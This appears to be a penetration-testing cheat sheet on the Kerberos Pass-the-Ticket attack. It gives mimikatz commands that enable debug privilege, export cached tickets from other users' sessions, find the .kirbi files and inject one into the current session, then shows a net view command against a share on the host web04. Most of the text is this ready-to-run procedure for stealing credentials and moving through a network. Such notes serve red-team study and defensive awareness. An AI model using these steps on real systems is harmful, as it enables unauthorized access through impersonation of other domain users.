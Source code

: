 The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.

# mimikatz
```
privilege::debug
```
Assuming a session with a different user already exists on this machine:
```
sekurlsa::tickets /export
```
Look for a file that has $(USER)@$(HOSTNAME).kirbi (i.e. "[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi"):
```batch
dir *.kirbi
```
```batch
kerberos::ptt $(KIRBI_FILENAME)
```
### Example:
If the user who's ticket was taken from cache is able to access a share, you can too! Try the following:
```batch
net view \\web04
```
